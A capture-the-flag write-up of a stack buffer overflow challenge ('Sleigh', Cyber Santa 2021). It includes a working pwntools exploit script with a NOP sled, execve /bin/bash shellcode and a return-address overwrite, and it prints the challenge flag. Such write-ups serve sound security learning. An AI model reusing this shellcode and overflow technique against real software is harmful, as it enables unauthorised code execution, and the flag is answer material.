

# Cyber Santa 2021 – Sleigh

- **Category:** Pwn Day 2
- **Points:** 300
- **Difficulty:** ★☆☆☆

## Challenge

We are given an executable called `sleigh`. Running through the program, it seems like a memory address is leaked.



## Solution

As usual running `checksec` showed that there was no canary, PIE enabled, and NX (non-executable stack) disabled. This means that we probably have to overwrite the stack and execute some commands to get shell execution.

Looking at `ghidra` shows that the address being printed is of a local variable defined within the function at a 48 byte offset from the start of the function.

So the strategy is to overflow the buffer after the prompt of "What shall they do". I have to overwrite the return pointer of the function over the stack such that it will execute whatever function I put on the stack to achieve shell execution (from my very basic understanding).

Using the same `./pattern_create.rb` and `./pattern_offset.rb` that I used in the writeup in pwn day 1 from metasploit, I found out that the offset was 72.

I found some shellcode online in bytes (Will link the source if I can find). I crafted the payload to have consecutive `nops` (which does nothing) and insert the shellcode at the tail end of the buffer. Following this I append the return address for the function to execute after.

```
from pwn import *

elf = ELF('./sleigh')
p = elf.process()
offset = 72
nops = b'\x90'

shellcode = b'\xeb\x0b\x5f\x48\x31\xd2\x52\x5e\x6a\x3b\x58\x0f\x05\xe8\xf0\xff\xff\xff\x2f\x2f\x2f\x2f\x62\x69\x6e\x2f\x2f\x2f\x2f\x62\x61\x73\x68\x00'

def getPayload(addr):
    ret = p64(addr)
    pay = nops*(offset-len(shellcode)) + shellcode + ret
    return pay

payload = getPayload(address)
p.sendline(payload)
p.interactive()
```

After keying in the address given by the remote instance, we get a shell!

After running `ls` and `cat flag.txt` we get the flag.

```
HTB{d4sh1nG_thr0ugH_th3_sn0w_1n_4_0n3_h0r53_0p3n_sl31gh!!!}
```

## Thoughts

- Again very new things introduced
- `checksec` typically tells you what kind of exploit is needed.
